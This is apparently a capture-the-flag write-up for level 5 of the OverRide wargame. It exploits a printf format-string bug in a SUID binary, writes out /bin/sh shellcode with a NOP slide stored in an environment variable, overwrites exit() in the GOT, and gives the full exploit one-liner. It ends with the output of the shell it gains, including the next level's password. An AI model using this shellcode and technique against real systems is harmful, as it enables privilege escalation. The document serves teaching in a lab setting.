 # Level 5

## Vulnerability

Shellcode in environment variable + printf() format string attack

## Context

We find a binary with owner ```level06``` and SUID.
```
level05@OverRide:~$ ls -l
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

The program takes input from the stdin, and prints the output in lowercase. 
```
level05@OverRide:~$ ./level05
HELLO
hello
```
## Solution

### main() overview

Let's take a deeper look at the program. See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level05/disassembly_notes.md) for detailed gdb assembly breakdown.

This program is a basic ```tolower()```, which is of little interest to us. <br />
However we do see a call to ```printf()```, which is vulnerable to string format exploits. <br />
We also see a call to ```exit()```.

### Exploit

Unfortunately, we see the stack is non-executable. We can overflow the buffer, but we can't overwrite the EIP with an address (like ```system("/bin/sh")```) in the stack because it won't execute.
```
level05@OverRide:~$ dmesg | grep "Execute Disable"
[    0.000000] NX (Execute Disable) protection: active
```

Instead, we will:
- use a shellcode stored in an environmental variable 
- to run a string format attack to overwrite ```exit()``` 

### Store shellcode in Env variable

We will use [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php).
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```
We will prefix the shellcode with a 100 byte NOP slide, and then store it all in an environment variable. 
```
level05@OverRide:~$ export SHELLCODE=`python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```

Let's find the address of our malicious shellcode / environment variable. 
```
(gdb) break *main+4
Breakpoint 1 at 0x8048448
(gdb) r
[...]
(gdb) x/200s environ
0xffffd806:	 "/home/users/level05/level05"
0xffffd822:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"
0xffffd8a8:	 "SHELL=/bin/bash"
```
Our malicious shellcode is at ```0xffffd822```. <br />
Note: we want to move past the first 10 bytes "SHELLCODE=" and into your NOP slide... so let's make the address of our shellcode ```0xffffd822 + 16 bytes -> 0xffffd832```.

Unfortunately, ```0xffffd832``` is too large to pass to ```printf()``` in decimal with a ```%d``` format (it overflows maxint).
```
2147483647 <- maximum size of int
4294957106 <- address of shellcode (in decimal)
```
We can, however, pass it in decimal as 2 short ints (written on 2 bytes each). <br />
Note: reverse order for little endian! 
```
0xffffd832
0xd832 -> 55346
0xffff -> 65535
```

### Find address of exit()

Next, find the address of ```exit()```. The GOT address of ```exit()``` is ```0x080497e0```.
```
level05@OverRide:~$ gdb -q level05
(gdb) info function exit
[...]
0x08048370  exit
0x08048370  exit@plt
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```
We will also have to split the address of ```exit()``` in two, to accomodate our hefty 2-part shellcode address. 

Finally, let's check our buffer position for the ```printf()``` string format exploit. <br />
We can see our buffer "AAAA" in the 10th position on the stack as 61616161.
```
level05@OverRide:~$ python -c 'print "AAAA"+" %x"*12' | ./level05
aaaa 64 f7fcfac0 f7ec3af9 ffffd69f ffffd69e 0 ffffffff ffffd724 f7fdb000 61616161 20782520 25207825
```

### Build exploit

Looks good... Let's sum it all up! <br />
Our attack takes place in 2 steps:
- malicious environment variable 
```
"NOP slide [100 bytes] + call to open a shell"
```
- format string attack
  - exit GOT address, split into two [4 byte] parts
  - shellcode address in decimal, split into two [4 byte] parts
      - ``` 55346 - 8 bytes (of characters already written)``` -> ```55338```
      - ```65535 - 55346 bytes (of characters already written)``` -> ```10189```
  -  ```printf()``` formatting arguments: 
      - ```%10$hn``` for 10th argument, half word/short int [2 bytes]
      - ```%11$hn``` for 11th argument, half word/short int [2 bytes]
```
"exit GOT address [2 first bytes] + exit GOT address [2 last bytes] + shellcode addr [2 bytes] + '%10$hn' + shellcode addr [2 bytes] + '%11$hn'"

(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55338d%10$hn" + "%10189d%11$hn")'; cat) | ./level05
```

Let's try it. 
```
level05@OverRide:~$ (python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55338d%10$hn" + "%10189d%11$hn")'; cat) | ./level05

[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
